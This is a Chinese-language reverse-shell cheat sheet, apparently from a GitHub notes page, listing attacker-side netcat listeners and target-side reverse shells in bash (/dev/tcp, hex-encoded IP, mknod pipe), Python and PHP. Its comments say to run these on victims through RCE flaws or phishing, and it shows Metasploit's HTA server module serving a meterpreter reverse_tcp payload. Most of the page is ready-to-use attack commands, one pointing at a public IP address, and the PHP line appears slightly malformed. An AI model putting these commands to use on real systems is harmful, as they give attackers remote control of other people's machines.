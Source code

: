 # Windows反弹shell

## 一、NC

### 反弹shell

开启本地监听（在攻击机上执行）

```bash
nc -lvvp 9999
#9999是监听端口
```

#### bash反弹shell（在靶机上通过RCE等漏洞或钓鱼执行）

```bash
 bash -i >& /dev/tcp/192.168.1.106/9999 0>&1	#ip和端口为攻击机的ip和攻击机监听的端口，注意IP和端口中间还是/
 
 #将IP地址改为16进制
 bash -i >& /dev/tcp/0xac.0x14.0x0a.0x02/9999 0>&1	#同上
 
 #mknod方式反弹
 mknod backpipe p && nc 192.168.1.106 1234 0<backpipe | /bin/bash 1>backpipe	#ip和端口同上
```

#### Python反弹shell（同样是通过RCE等漏洞进行，需要靶机上有python环境）

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("攻击机IP",端口号));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

#### PHP反弹shell

```php
php -r '$sock=fsockopen("101.200.236.51",9);exec("/bin/sh -i &3 2>&3");'
```

## 二、HTA（Mshta）

### Metasploit HTA WebServer

通过`Metasploit`的`HTA Web Server`模块发起`HTA`攻击

**攻击机操作**

```bash
msfconsole
#以下均在msf框架中执行，需要输入的命令是`>`后面的命令
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set srvhost 192.168.1.106	#攻击机的IP，也就是接收shell的ip
msf6 exploit(windows/misc/hta_server) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > set target 0	#这里看option选项里的列举情况
msf6 exploit(windows/misc/hta_server) > run -j
```

